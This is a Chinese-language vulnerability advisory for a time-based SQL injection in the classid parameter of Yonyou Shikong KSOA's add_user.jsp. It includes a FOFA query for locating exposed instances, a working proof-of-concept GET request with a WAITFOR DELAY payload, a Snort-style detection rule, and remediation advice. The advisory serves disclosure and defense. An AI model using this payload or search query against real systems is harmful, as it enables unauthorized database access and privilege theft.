

# 用友-时空KSOA add_user.jsp classid 存在SQL注入漏洞

用友-时空KSOA add_user.jsp classid 存在SQL注入漏洞，攻击者可进行sql注入攻击获取数据库信息或者权限。

# 影响版本

用友-时空KSOA 

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="用友-时空KSOA"

POC/EXP：

```
GET /cardcase/add_user.jsp?classid=1')%3bWAITFOR+DELAY+'0%3a0%3a7'-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"用友时空KSOA - /cardcase/add_user.jsp classid 时间盲注 (WAITFOR DELAY)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/cardcase/add_user.jsp";
        fast_pattern;
    http.uri;
        content:"classid=";
    http.uri;
        content:"WAITFOR+DELAY"; nocase;
    http.uri;
        content:"0%3a0%3a7"; nocase;
    metadata:
        service http,
        affected_product "用友时空KSOA",
        vulnerability_type "Time-based SQL Injection",
        severity "high";
    classtype:web-application-attack;
    sid:1000749;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
